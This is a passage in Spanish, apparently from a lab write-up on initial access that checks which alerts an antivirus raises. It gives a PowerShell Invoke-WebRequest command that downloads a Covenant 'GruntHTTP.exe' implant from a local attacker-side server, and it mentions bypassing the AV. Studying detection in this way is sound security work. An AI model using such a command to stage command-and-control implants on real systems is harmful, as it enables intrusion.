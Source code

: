 ![image006.png](/uploads/InitialAccess/image006.png)

Debemos tener en cuenta que saltará información si no conseguimos bypassear el AV.

Para descargar el fichero utilize la expresión:

`Invoke-WebRequest -uri http://192.168.2.14:8000/GruntHTTP.exe -OutFile grunt.exe`


Se nos generan dos alertas

![image007.png](/uploads/InitialAccess/image007.png)

Una primera alerta, la creación del fichero
![image008.png](/uploads/InitialAccess/image008.png)
